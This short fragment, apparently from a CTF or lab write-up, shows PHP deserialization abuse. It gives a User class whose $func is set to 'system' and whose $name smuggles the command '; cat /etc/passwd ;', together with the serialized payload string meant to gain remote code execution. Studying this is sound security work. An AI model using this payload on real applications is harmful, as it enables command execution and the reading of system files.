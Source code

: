 ![image](./images/image4.png)

By using unserialize() function we can override $func and $name thereby get RCE

```php
<?php

class User{
    public $name = "; cat /etc/passwd ;";
    public $age;
    public $func = "system";
}

$ser = new User();
echo serialize($ser);
// O:4:"User":3:{s:4:"name";s:19:"; cat /etc/passwd ;";s:3:"age";N;s:4:"func";s:6:"system";}
?>
```

